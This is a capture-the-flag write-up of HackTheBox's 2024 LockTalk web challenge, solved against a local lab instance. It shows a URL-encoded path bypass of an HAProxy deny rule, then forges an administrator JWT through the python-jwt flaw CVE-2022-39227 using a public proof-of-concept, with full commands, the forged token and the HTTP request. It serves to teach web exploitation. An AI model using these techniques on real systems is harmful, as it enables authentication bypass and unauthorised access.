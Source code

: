 ```yaml
---
name: LockTalk (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for LockTalk (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# LockTalk

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=892 "HackTheBox Cyber Apocalypse '24: Lock Talk (web)")

## Description

> In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

## Solution

We can review source code but first let's check the site functionality. The homepage has 3 available API endpoints:

```txt
GET /api/v1/get_ticket - Generates a ticket (JWT token)
GET /api/v1/chat/{chatId} - Finds chat history by ID
GET /api/v1/flag - Retrieves the flag
```

Unfortunately, we can't execute the last two queries since they require a JWT. However, we can try to generate a JWT with `get_ticket`.

```txt
Forbidden: Request forbidden by administrative rules.
```

OK, I guess not then 🙃 I don't see any other interesting functionality and burp scanner didn't find anything notable. Time to review the source code!

The following line in `haproxy.cfg` explains the previous error. It's checking if our URL-decoded (`url_dec`), case-insensitive (`-i`) path begins (`path_beg`) with `/api/v1/get_ticket`.

```bash
http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

First, I thought maybe some [URL-format bypass tricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass) might be required to bypass the path check. Then I saw some [reports](https://portswigger.net/daily-swig/http-request-smuggling-bug-patched-in-haproxy) about [HTTP request smuggling in haproxy](https://gist.github.com/ndavison/4c69a2c164b2125cd6685b7d5a3c135b),

I quickly realised this was a dead end since none of the endpoints support POST requests and the `deny` rule doesn't appear to exclude internal traffic.

I decided to try [403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122) and found a few different techniques to bypass, e.g. this one with a URL-encoded `/`.

```bash
http://127.0.0.1:1337/%2fapi/v1/get_ticket
```

Now we have a valid JWT and can read chat history but not retrieve the flag.

Checking `jwt_tool`, we find information about the token.

```bash
jwt_tool eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODA5MTcsImlhdCI6MTcxMDA3NzMxNywianRpIjoiUkdjaHZFZVBNZFJYRlpQR2hHT0pOUSIsIm5iZiI6MTcxMDA3NzMxNywicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.Vzxw0lMT-Gbr6TaxLw5_rge7mYRpBvl2D1D1h8pUymROJML9BeYnbp0j1G2qUgWk2SMJTB43dt5nNb7z3mjK_Oe7RwLHTHhCxxyAjO3z4U2XhpmRhXm6YYALZELFY00Kv0yJvqlshFdnOgK0VnU3ziiUJvJRpRL4WHpMVspAHPyf6YHcgDiWyJua5-3nGog1bYcQy9CuxYKTfeXhVRBzsyyOoJII0EggDJIzfadf1OXh2MzGrkaXCghe8Whb9VGsrBRDGsELc2p0UOBAljJuKaPS2RtheX2-Kb8RAQ_ZtD_XQm0RD2HhFOyRRhSyRXmvsj2m3vT34z5Ix8nG4SZb8Q

Token header values:
[+] alg = "PS256"
[+] typ = "JWT"

Token payload values:
[+] exp = 1710080917    ==> TIMESTAMP = 2024-03-10 14:28:37 (UTC)
[+] iat = 1710077317    ==> TIMESTAMP = 2024-03-10 13:28:37 (UTC)
[+] jti = "RGchvEePMdRXFZPGhGOJNQ"
[+] nbf = 1710077317    ==> TIMESTAMP = 2024-03-10 13:28:37 (UTC)
[+] role = "guest"
[+] user = "guest_user"

Seen timestamps:
[*] exp was seen
[*] iat is earlier than exp by: 0 days, 1 hours, 0 mins
[*] nbf is earlier than exp by: 0 days, 1 hours, 0 mins

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------
```

We're unable to crack secret due to an error: `Algorithm is not HMAC-SHA - cannot test against passwords, try the Verify function.`

If we simply change role to `administrator` and sign with the `none` algorithm: `algorithm not allowed: none`.

Similarly, trying to sign with a null key using the [JWT editor burp extension](https://github.com/PortSwigger/jwt-editor) returns `algorithm not allowed: HS256`, but there's no `PS256` option for us to experiment with.

We can try and generate a key.

```bash
openssl genpkey -algorithm RSA -out private.pem
openssl rsa -pubout -in private.pem -out public.pem
```

Then try to tamper (inject claim) and sign it with `PSS RSA` using the `jwt_tool` (great [wiki](https://github.com/ticarpi/jwt_tool/wiki)).

```bash
jwt_tool eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODMzNDksImlhdCI6MTcxMDA3OTc0OSwianRpIjoiR0pSLTJuS0JyV0VrMDNkdXNiOVRlZyIsIm5iZiI6MTcxMDA3OTc0OSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.IpTbfdY4bYGT0hLw9phgJlZVPAmBvze7KwY86jytKyqrSnIBZpUX_XG_oC8UUfUA8DCDZvsZteO1_QKLNqn2UHyDoVAdz0GUEMu8mTnM_CCxJ6jpfuI66cGWjyHJoQKYGhjLaC3ETJYMv38bCBKVUw2j5JgE_sJB-iMgcE-4EgDOfV_988bcGmWUbRoSEzFOTDLbhf15SkKEPnVIdCz00YKHJLJzMoFbGJimRcQTSXGlanfPOGao1V7r_d5VgntGELcuNuJpsq00rXLShsoRc1DXPvhtf_OVxvpQGo893UNUGAjHIPjhZZDA-sH_iyOC68Lf4NOBgUInxlkiN65tUg -I -pc role -pv administrator -S ps256 -pr private.pem
```

It does not work: `Verification failed for all signatures[\"Failed: [InvalidJWSSignature('Verification failed')]\"]`

OK, enough black box testing. We can check the source code and understand why this would fail; they generate their own key in `config.py`. Of course ours is not valid 😁

```python
JWT_SECRET_KEY = jwk.JWK.generate(kty='RSA', size=2048)
```

We can see how they generate the JWTs in `routes.py`.

```python
token = jwt.generate_jwt(claims, current_app.config.get('JWT_SECRET_KEY'), 'PS256', datetime.timedelta(minutes=60))
```

Finally, we confirm that the `/flag` route is only accessible using the `administrator` role.

```python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

I decided to look for any recent vulnerabilities in the [python-jwt](https://pypi.org/project/python-jwt/) package.

> **Note:** Versions 3.3.4 and later fix a [vulnerability](https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp) (CVE-2022-39227) in JSON Web Token verification which lets an attacker with a valid token re-use its signature with modified claims. CVE to follow. Please upgrade!

You don't say? That's exactly what we'd like to do! 😼

Let's check the [CVE-2022-39227 advisory](https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp)

> An attacker who obtains a JWT can **arbitrarily forge its contents without knowing the secret key**. Depending on the application, this may for example enable the attacker to spoof other user's identities, hijack their sessions, or bypass authentication.

It doesn't explain _how_ to forge a JWT but there are some accompanying [unit tests](https://github.com/davedoesdev/python-jwt/blob/master/test/vulnerability_vows.py)

```python
""" Test claim forgery vulnerability fix """
from datetime import timedelta
from json import loads, dumps
from test.common import generated_keys
from test import python_jwt as jwt
from pyvows import Vows, expect
from jwcrypto.common import base64url_decode, base64url_encode

@Vows.batch
class ForgedClaims(Vows.Context):
    """ Check we get an error when payload is forged using mix of compact and JSON formats """
    def topic(self):
        """ Generate token """
        payload = {'sub': 'alice'}
        return jwt.generate_jwt(payload, generated_keys['PS256'], 'PS256', timedelta(minutes=60))

    class PolyglotToken(Vows.Context):
        """ Make a forged token """
        def topic(self, topic):
            """ Use mix of JSON and compact format to insert forged claims including long expiration """
            [header, payload, signature] = topic.split('.')
            parsed_payload = loads(base64url_decode(payload))
            parsed_payload['sub'] = 'bob'
            parsed_payload['exp'] = 2000000000
            fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
            return '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

        class Verify(Vows.Context):
            """ Check the forged token fails to verify """
            @Vows.capture_error
            def topic(self, topic):
                """ Verify the forged token """
                return jwt.verify_jwt(topic, generated_keys['PS256'], ['PS256'])

            def token_should_not_verify(self, r):
                """ Check the token doesn't verify due to mixed format being detected """
                expect(r).to_be_an_error()
                expect(str(r)).to_equal('invalid JWT format')
```

I started to build a custom script but had lots of python package issues and ended up finding a pre-existing [PoC](https://github.com/user0x1337/CVE-2022-39227) instead 😌

```bash
python exploit.py -j "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw" -i "role=administrator"
[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710085391, 'iat': 1710081791, 'jti': 'beH5fPnzYFYY5CAEWO-ZuA', 'nbf': 1710081791, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710085391, 'iat': 1710081791, 'jti': 'beH5fPnzYFYY5CAEWO-ZuA', 'nbf': 1710081791, 'role': 'administrator', 'user': 'guest_user'}
[+] Fake payload encoded: eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw"}
```

Now, we just send the tampered token to the `/flag` endpoint in burp repeater and receive the flag.

```bash
GET /api/v1/flag HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:1337/
Authorization: {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw"}
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Sec-GPC: 1

```

Flag: `HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`
